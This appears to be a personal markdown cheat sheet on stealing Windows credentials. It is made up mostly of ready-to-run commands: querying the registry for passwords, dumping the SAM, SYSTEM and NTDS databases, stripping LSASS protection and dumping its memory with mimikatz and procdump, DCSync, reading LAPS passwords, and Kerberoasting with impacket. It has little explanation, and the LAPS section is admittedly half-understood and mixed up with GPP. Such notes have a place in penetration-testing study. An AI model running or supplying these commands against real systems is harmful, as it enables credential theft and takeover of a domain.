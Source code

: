 # 1-Find Clear-Text Files:
- **Powershell History**:
```
Path: C:\<UserName>\USER\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
- **Registry: find password keyword**:
```
c:\Users\user> reg query HKLM /f password /t REG_SZ /s
C:\Users\user> reg query HKCU /f password /t REG_SZ /s
```
- **Also look for:**
  - Database Files
  - Memory Dump
  - Active Directory.Users' description
  - Network Sniffing

# 2-Key Logging

# 3-SAM Database:
  - Path: c:\Windows\System32\config\sam
  - we can not read it and copy it
  - SAM database is encrypted either with RC4 or AES.we need a decryption key which is also stored in the files system in **c:\Windows\System32\Config\system** 
    ### how to Dump:
    - 1-MetaSploit.hashdump
    - 2-Microsoft Volume shadow copy:
        ```
        wmic shadowcopy call create Volume='C:\'
        #find where it is stored
        vssadmin list shadows
        copy \\path\to\volume\sam  \\somewhere-Else
        copy \\path\to\volume\\system \\soemwhere-Else
        ```
# 4-Registry Hives:
```
reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg
reg save HKLM\system C:\users\Administrator\Desktop\system-reg
#Extract
secretsdump.py -sam /tmp/sam-reg -system /tmp/system-reg LOCAL
```

# 5-Dump LSASS(cached credentials):
  - **Protected LSASS**:
    - disable from Registry:
    ```
    HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa
    ```
    - disable with mimikatz:
    ```
    mimikatz # !+
    mimikatz # !processprotect /process:lsass.exe /remove
    ```

  - 5.1-Using GUI with Task-Manager
  - 5.2-Using procdump
  ```
  procdump.exe -accepteula -ma lsass.exe c:\<somewhere>
  ```
  - 5.3-mimikatz
  ```
  mimikatz # sekurlsa::logonpasswords
  ```
  
# 6-Windows Credential Manager:
  - Stored Credentials in system:
  ```
  vaultcmd /list
  VaultCmd /listproperties:"Web Credentials"
  VaultCmd /listcreds:"Web Credentials"
  VaultCmd /listproperties:"Windows Credentials"
  VaultCmd /listcreds:"Windows Credentials"
  cmdkey /list
  runas /savecred /user:<Domain>\Username cmd.exe
  mimikatz # sekurlsa::credman
  ```
    - The VaultCmd is not able to show the password. we can use this tools [Get-WebCredentials.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1)
      ```
      Import-Module C:\Tools\Get-WebCredentials.ps1
      Get-WebCredentials
      ```
# 7-NTDS:
  - **Local**:
    - we need the following files:
        - C:\Windows\NTDS\ntds.dit
        - C:\Windows\System32\config\SYSTEM
        - C:\Windows\System32\config\SECURITY
    - with Powershell:
    ```
    #Dump
    powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
    #Extract
    secretsdump.py -security path/to/SECURITY -system path/to/SYSTEM -ntds path/to/ntds.dit local
    ```
  - **Remote(DCSync)**:
    ```
    #dump NTDS
    lsadump::dcsync /domain:<DomainName> /all
    #Extract just NTDS data
    secretsdump.py -just-dc <DomainName>/<AD_Admin_User>@MACHINE_IP 
    #Extract NTLM hashes
    secretsdump.py -just-dc-ntlm <DomainName>/<AD_Admin_User>@MACHINE_IP
    ```
# 8-LAPS(im not understand it completely):
- GPP:
  - **Microsoft implemented a method to change local administrator accounts across workstations using Group Policy Preferences (GPP)**
  - GPP is a tool that allows administrators to create domain policies with embedded credentials.
  - Once the GPP is deployed, different XML files are created in the SYSVOL folder.
  - The issue was the GPP relevant XML files contained a password encrypted using AES-256 bit encryption, but Microsoft somehow published its private key
  - Since Domain users can read the content of the SYSVOL folder, it becomes easy to decrypt the stored passwords
- LAPS:
   - LAPS uses **admpwd.dll** to change the local administrator password and update the value of **ms-mcs-AdmPwd**
   - **ms-mcs-AdmPwd** attribute **contains** a clear-text **password** of the local administrator
   ```
   #check if LAPS is installed or not
   dir "C:\Program Files\LAPS\CSE"
   #check the available commands to use for AdmPwd cmdlets 
   Get-Command *AdmPwd*
   #find the right OU
   Find-AdmPwdExtendedRights -Identity *
   #login to proper user and:
   Get-AdmPwdPassword -ComputerName <computerName>
   ```
# 9-Kerberoasting:
  - In order for this attack to work, an adversary must have access to SPN (Service Principal Name) accounts such as IIS User, MSSQL, etc. The Kerberoasting attack involves requesting a Ticket Granting Ticket (TGT) and Ticket Granting Service (TGS).
    ```
    #look for SPN
    impacket/examples/GetUserSPNs.py -dc-ip MACHINE_IP <DomainName>/User
    #we can send a single request to get a TGS ticket for the target user that has SPN, since TGS is encrypted with target-user credentials we can crack it and Done!
    impacket/examples/GetUserSPNs.py -dc-ip MACHINE_IP <DomainName>/User -request-user Target-user
    ```
